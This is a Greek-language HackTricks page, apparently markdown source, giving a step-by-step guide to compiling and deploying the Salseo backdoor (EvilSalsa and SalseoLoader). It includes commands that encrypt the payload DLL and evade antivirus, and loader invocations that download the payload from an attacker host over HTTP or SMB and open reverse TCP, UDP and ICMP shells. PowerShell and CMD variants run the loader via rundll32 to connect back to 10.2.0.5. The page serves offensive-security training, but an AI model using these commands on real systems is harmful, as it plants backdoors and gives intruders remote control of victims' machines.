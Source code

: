 # Salseo

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Συντάσσοντας τα δυαδικά αρχεία

Κατεβάστε τον πηγαίο κώδικα από το github και συντάξτε τα **EvilSalsa** και **SalseoLoader**. Θα χρειαστείτε το **Visual Studio** εγκατεστημένο για να συντάξετε τον κώδικα.

Συντάξτε αυτά τα έργα για την αρχιτεκτονική του παραθύρου όπου θα τα χρησιμοποιήσετε (Αν τα Windows υποστηρίζουν x64, συντάξτε τα για αυτές τις αρχιτεκτονικές).

Μπορείτε να **επιλέξετε την αρχιτεκτονική** μέσα στο Visual Studio στην **αριστερή καρτέλα "Build"** στο **"Platform Target".**

(\*\*Αν δεν μπορείτε να βρείτε αυτές τις επιλογές, πατήστε στην **καρτέλα Project** και μετά στις **"Ιδιότητες \<Όνομα Έργου>"**)

![](<../.gitbook/assets/image (132).png>)

Στη συνέχεια, συντάξτε και τα δύο έργα (Build -> Build Solution) (Μέσα στα logs θα εμφανιστεί η διαδρομή του εκτελέσιμου αρχείου):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Προετοιμασία της πίσω πόρτας

Καταρχάς, θα χρειαστείτε να κωδικοποιήσετε το **EvilSalsa.dll.** Για να το κάνετε αυτό, μπορείτε να χρησιμοποιήσετε το σενάριο python **encrypterassembly.py** ή μπορείτε να συντάξετε το έργο **EncrypterAssembly**: 

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Τώρα έχεις ό,τι χρειάζεσαι για να εκτελέσεις όλο το πράγμα Salseo: το **κωδικοποιημένο EvilDalsa.dll** και το **δυαδικό του SalseoLoader.**

**Μετέφερε το δυαδικό SalseoLoader.exe στη μηχανή. Δεν πρέπει να ανιχνευθεί από κανένα AV...**

## **Εκτέλεση της πίσω πόρτας**

### **Λήψη αντίστροφου κέλυφους TCP (λήψη κωδικοποιημένου dll μέσω HTTP)**

Θυμηθείτε να ξεκινήσετε ένα nc ως ακροατή αντίστροφου κελύφους και ένα διακομιστή HTTP για να εξυπηρετήσει το κωδικοποιημένο evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Λήψη ενός αντίστροφου κέλυφους UDP (λήψη κωδικοποιημένου dll μέσω SMB)**

Να θυμάστε να ξεκινήσετε ένα nc ως ακροατής αντίστροφου κελύφους και ένα διακομιστή SMB για να εξυπηρετήσει το κωδικοποιημένο evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Λήψη ενός αντίστροφου κελύφους ICMP (κωδικοποιημένο dll ήδη μέσα στο θύμα)**

**Αυτή τη φορά χρειάζεστε ένα ειδικό εργαλείο στον πελάτη για να λάβετε το αντίστροφο κελύφους. Λήψη:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Απενεργοποίηση απαντήσεων ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Εκτέλεση του πελάτη:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Μέσα στο θύμα, ας εκτελέσουμε το πράγμα salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Συναρμολόγηση του SalseoLoader ως DLL εξαγωγής κύριας συνάρτησης

Ανοίξτε το έργο SalseoLoader χρησιμοποιώντας το Visual Studio.

### Προσθέστε πριν από την κύρια συνάρτηση: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Εγκατάσταση του DllExport για αυτό το έργο

#### **Εργαλεία** --> **Διαχειριστής πακέτων NuGet** --> **Διαχείριση πακέτων NuGet για τη λύση...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Αναζήτηση του πακέτου DllExport (χρησιμοποιώντας την καρτέλα Περιήγηση) και πατήστε Εγκατάσταση (και αποδεχτείτε το αναδυόμενο παράθυρο)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Στο φάκελο του έργου σας εμφανίζονται τα αρχεία: **DllExport.bat** και **DllExport\_Configure.bat**

### **Απεγκατάσταση του DllExport**

Πατήστε **Απεγκατάσταση** (ναι, είναι περίεργο αλλά εμπιστευτείτε με, είναι απαραίτητο)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Έξοδος από το Visual Studio και εκτέλεση του DllExport\_configure**

Απλά **βγείτε** από το Visual Studio

Στη συνέχεια, πηγαίνετε στον φάκελο του **SalseoLoader** και **εκτελέστε το DllExport\_Configure.bat**

Επιλέξτε **x64** (αν πρόκειται να το χρησιμοποιήσετε μέσα σε ένα x64 box, όπως ήταν το δικό μου), επιλέξτε **System.Runtime.InteropServices** (μέσα στο **Χώρο ονομάτων για το DllExport**) και πατήστε **Εφαρμογή**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Ανοίξτε ξανά το έργο με το Visual Studio**

Το **\[DllExport]** δε θα πρέπει πλέον να είναι σημειωμένο ως σφάλμα

![](<../.gitbook/assets/image (8) (1).png>)

### Κατασκευή της λύσης

Επιλέξτε **Τύπος Εξόδου = Βιβλιοθήκη κλάσεων** (Έργο --> Ιδιότητες SalseoLoader --> Εφαρμογή --> Τύπος εξόδου = Βιβλιοθήκη κλάσεων)

![](<../.gitbook/assets/image (10) (1).png>)

Επιλέξτε **πλατφόρμα x64** (Έργο --> Ιδιότητες SalseoLoader --> Κατασκευή --> Στόχος πλατφόρμας = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Για να **κατασκευάσετε** τη λύση: Κατασκευή --> Κατασκευή Λύσης (Μέσα στην κονσόλα εξόδου θα εμφανιστεί η διαδρομή του νέου DLL)

### Δοκιμάστε το δημιουργημένο Dll

Αντιγράψτε και επικολλήστε το Dll όπου θέλετε να το δοκιμάσετε.

Εκτελέστε:
```
rundll32.exe SalseoLoader.dll,main
```
Αν δεν εμφανίζεται κάποιο σφάλμα, πιθανόν να έχετε ένα λειτουργικό DLL!!

## Λήψη κέλυφους χρησιμοποιώντας το DLL

Μην ξεχάσετε να χρησιμοποιήσετε ένα **HTTP** **server** και να ορίσετε έναν **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### Εντολή
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
